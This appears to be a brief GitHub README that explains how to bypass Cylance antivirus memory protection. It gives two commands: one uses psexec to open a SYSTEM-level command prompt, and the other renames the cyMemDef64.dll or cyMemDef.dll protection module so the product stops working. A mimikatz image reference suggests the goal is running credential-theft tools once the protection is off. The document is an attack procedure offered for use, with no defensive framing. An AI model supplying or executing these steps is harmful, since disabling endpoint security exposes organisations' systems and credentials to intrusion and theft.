 # Cylance-AV-Bypass
If you have access as NT Authoriy on system, you can bypass Cylance AV by renamin the cyMemDef64.dll for x64 and or cyMemDef.dll for 32bit.
1) Open up command prompt as NT System by running psexec.exe -i -s %SystemRoot%\system32\cmd.exe
2) Run move "C:\Program Files\Cylance\Desktop\cyMemDef64.dll" "C:\Program Files\Cylance\Desktop\cyMemDef64.dll.bak"
3) You can no bypass Cylance Memory protection. 
mimikatz-stforum.jpg

<image src="images/mimikatz-stforum.jpg.jpg" width="250" height="250">
